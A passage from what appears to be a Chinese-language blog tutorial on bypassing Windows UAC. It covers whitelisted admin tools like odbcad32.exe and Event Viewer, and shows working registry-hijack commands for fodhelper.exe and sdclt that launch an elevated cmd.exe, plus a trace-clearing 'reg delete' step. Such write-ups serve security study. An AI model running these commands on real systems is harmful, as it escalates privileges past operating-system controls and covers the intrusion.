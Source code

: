 另外的，你还可以为 COR_PROFILER_PATH 设置为如 \\server\share\test.dll 的 smb 的路径，这样也可以实现 bypassuac（没复现）

3. 白名单程序
--------

### odbcad32.exe

这个方法很简单。打开 C:\Windows\system32\odbcad32.exe，然后通过以下方法打开 powershell 或者 cmd

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG6GX1kibWjrE9RnWvlhYO4s9HqicOXysd4GZfSpDA7HDDn6qbQfTJ7DZjg/640?wx_fmt=png)

成功 bypass

### ![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG6DxPmJOkSiaazP9xEK4VjFcWreuAxibyDg51wwjRbVLvE3Ax2hIS7F7UQ/640?wx_fmt=png)

### 管理工具

之前说过，管理工具有很多白名单程序，如果一个白名单程序有浏览文件目录的功能，就可以以此来创建高权限 cmd 窗口。这里拿事件查看器举例

操作 -》打开保存的目录 -》文件目录路径处输入 powershell-》弹出高权限 powershell 以此内推，还有很多相似的管理工具可以这样利用

4. 注册表劫持
--------

### Fodhelper.exe

Fodhelper.exe win10 才有，所以只有 win10 能通过这个办法 bypassuac，他是一个 autoelevate 元素程序

我们使用 proceemonitor 查看事件查看器启动的时候执行了什么。我们通过排查发现了此处

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG63W8G6yTpqgy6MX9ATgka27yjJ4rNWtCZUiaQk15XZ4SklgdYxL9toHQ/640?wx_fmt=png)

发现程序试图打开 HKCU\Software\Classes\ms-settings\shell\open\command，但是这个项没有找到，因为这个项并不存在，于是它查询 HKCR\ms-settings\Shell\Open, 查询成功便打开其下的 Command 键进行查询。  
我们可以劫持注册表，往 HKCU\Software\Classes\ms-settings\shell\open\command 写入恶意指令从而达到 bypassuac 的目的。

<table width="797"><tbody><tr><td><pre class="hljs bash">reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f 
reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f</pre></td></tr></tbody></table>

我们写入如下命令，就能让 Fodhelper.exe 执行时自动高权限执行 cmd 窗口了

然后消除痕迹

<table width="797"><tbody><tr><td><pre class="hljs coffeescript">reg delete "HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command"</pre></td></tr></tbody></table>

### sdclt

Win10 后这个程序才有自动提升权限的能力

<table width="797"><tbody><tr><td><pre class="hljs cs">reg add "HKCU\Software\Classes\Folder\shell\open\command" /d C:\Windows\System32\cmd.exe /f 
reg add "HKCU\Software\Classes\Folder\shell\open\command" /v "DelegateExecute" /f</pre></td></tr></tbody></table>
